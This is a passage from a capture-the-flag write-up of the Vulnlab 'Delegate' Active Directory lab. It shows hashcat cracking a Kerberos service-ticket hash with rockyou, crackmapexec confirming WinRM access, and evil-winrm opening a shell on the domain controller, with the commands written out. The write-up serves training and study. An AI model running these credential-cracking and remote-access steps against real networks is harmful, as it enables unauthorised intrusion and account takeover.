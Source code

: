 Let's now use [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) with a hash-identifier of 13100 to attempt to decrypt this hash.

```
└─$ hashcat -a 0 -m 13100 nthompson.txt /usr/share/wordlists/rockyou.txt
......
f81d26ea14e743da90803146fc62ee86195ff78c872e0422bfb05fcb74c9ec6337b612aaa6338382da5ee166bffe0d275685ab7388b9ec9b2f6cd7e7f190edb308d9f:[...snip...]

Session..........: hashcat
Status...........: Cracked
```

As you can see from the above, the password was cracked successfully. We can now use this with crackmapexec to see if `N.Thompson` has any valid authentication to any other resources.

![](/images/vulnlab/delegate-vl/c.png)

It seems as though `N.Thompson` is a part of the `Remote Management Users` group. From my first guess, this means that they can PSRemote into the machine (meaning they have RDP access).

```
└─$ crackmapexec winrm 10.10.87.35 -u 'N.Thompson' -p '[...snip...]'
SMB         10.10.87.35     5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
HTTP        10.10.87.35     5985   DC1              [*] http://10.10.87.35:5985/wsman
WINRM       10.10.87.35     5985   DC1              [+] delegate.vl\N.Thompson:[...snip...] (Pwn3d!)
```

It seems as though we have the ability to WinRM into the machine. Let's do so with `evil-winrm`.

```
└─$ evil-winrm --ip 10.10.87.35 -u 'N.Thompson' -p '(N.THOMPSON PASSWORD)'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> whoami
delegate\n.thompson
*Evil-WinRM* PS C:\Users\N.Thompson\Documents> hostname
DC1
```

The first user flag is within their home directory, denoted path as `C:\Users\N.Thompson\Desktop\user.txt`.

# SeEnableDelegationPrivilege and MAQs

I decided not to use Sliver for this, as it really isn't needed aside from transferring files to the machine easily. We'll be doing the rest of this solely from the WinRM session that we have.
